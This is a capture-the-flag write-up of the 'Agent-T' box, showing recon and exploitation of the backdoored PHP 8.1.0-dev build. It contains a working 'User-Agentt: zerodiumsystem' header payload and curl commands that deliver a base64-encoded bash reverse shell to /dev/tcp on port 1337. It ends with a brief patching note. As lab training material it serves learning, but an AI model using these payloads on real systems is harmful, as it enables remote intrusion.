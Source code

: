 # Agent-T Writeup

Name: Agent-T
Date:  09/01/2023
Description: Something seems a little off with the server.
Better Description: Backdoor o'clock
Difficulty:  Easy
Goals:  
- Quick B2R as I going loads of everything else today.
Learnt:
- Supply Chain attacks are pretty awesome
Beyond Root:
- Patch it

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](nmapscan.png)

## Exploit

Nmap discovery script found 8.1.0-dev in the header information. 
![](php8-1-0dev.png)
8.1.0-dev was victim to a supply-chain attack and a backdoor was place when using the header to run arbituary PHP code:
```php
// everything after the system will be executed as a php system command 
"User-Agentt": "zerodiumsystem('" + cmd + "');"
```

For a good 16 minute video by [John Hammond](https://www.youtube.com/watch?v=j-wmhJ8u5Ws) and the [Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

For some reason this should work, but I thought I forgot escape quotations and I am leaving this here as a reminder and testiment to handling quotes workflow. Although actually it is `('"<cmd>"')` reading issue I had.
```bash
# create the variable to be copy and paste lazy 
base64encodedpayload=$(echo "/bin/bash -c 'exec bash -i &>/dev/tcp/$ip/1337 <&1'" | base64 -w0)
curl http://10.10.129.151  -H 'User-Agentt: zerodiumsystem("echo $base64encodedpayload | base64 -d | bash");' -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

Regardless

```bash
curl http://10.10.129.151  -H "User-Agentt: zerodiumsystem('echo $base64encodedpayload | base64 -d | bash');" -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'
```

## Foothold && PrivEsc

And we are Root
![](root.png)

## Beyond Root

This box was very easy, but I want to practice and showcase patching this. Also I want to try manual without lookup finding the code and patching it. We are also ina docker container so I could try a container escape.
![](weareinadockercontainer.png)

Patching - downgrade to 8.0 or upgrade to a later version
